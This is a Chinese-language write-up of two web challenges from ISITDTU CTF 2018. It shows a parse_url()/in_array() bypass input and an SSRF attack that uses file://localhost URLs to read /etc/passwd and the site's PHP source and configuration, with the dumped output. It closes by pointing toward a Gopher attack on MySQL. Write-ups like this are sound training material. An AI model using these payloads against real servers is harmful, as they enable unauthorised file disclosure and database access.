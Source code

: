 # ISITDTU CTF 2018 Quals - Notes

## IZ

考兩個洞:
1. parse_url() 存在一個漏洞，當 url 是 `http:/localhost///x.php?key=value` 會回傳 false
2. in_array() 是弱類型比較，然後將字串和數字比對時，會將字串轉數字，如果第一個字串的值不是數字則轉 0

所以輸入 `///?_=a` 就可以 get flag


## Friss
> Description: http://35.190.142.60/

打開頁面只有這一個視窗
![image](./img/5TTiIhc.png)

如果給 `file://etc/passwd`

會出現

```
string(3) "etc"
Only access to localhost
```

他要求必須是 localhost

所以改成 `file://localhost/etc/passwd`

就有東西
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false ntp:x:112:116::/home/ntp:/bin/false ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash binhhuynhvanquoc:x:1001:1002::/home/binhhuynhvanquoc:/bin/bash mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
```

可以讀檔案後，就先來嘗試讀網頁原始碼: `file://localhost/var/www/html/index.php`

```php
<?php
include_once "config.php";
if (isset($_POST['url'])&&!empty($_POST['url']))
{
	$url = $_POST['url'];
	$content_url = getUrlContent($url);
}
else
{
	$content_url = "";
}
if(isset($_GET['debug']))
{
	show_source(__FILE__);
}


?>

```

這邊看到有 config.php ，再來讀: `file://localhost/var/www/html/config.php`

```php
<?php


$hosts = "localhost";
$dbusername = "ssrf_user";
$dbpasswd = "";
$dbname = "ssrf";
$dbport = 3306;

$conn = mysqli_connect($hosts,$dbusername,$dbpasswd,$dbname,$dbport);

function initdb($conn)
{
	$dbinit = "create table if not exists flag(secret varchar(100));";
	if(mysqli_query($conn,$dbinit)) return 1;
	else return 0;
}

function safe($url)
{
	$tmpurl = parse_url($url, PHP_URL_HOST);
	if($tmpurl != "localhost" and $tmpurl != "127.0.0.1")
	{
		var_dump($tmpurl);
		die("<h1>Only access to localhost</h1>");
	}
	return $url;
}

function getUrlContent($url){
	$url = safe($url);
	$url = escapeshellarg($url);
	$pl = "curl ".$url;
	echo $pl;
	$content = shell_exec($pl);
	return $content;
}
initdb($conn);
?>

```

這邊可以看到幾個東西:
1. 給了我們一個沒有密碼的帳號
2. flag 在 db 中

這邊可以參考 [从一道CTF题目看Gopher攻击MySql](http://www.freebuf.com/articles/web/159342.html)


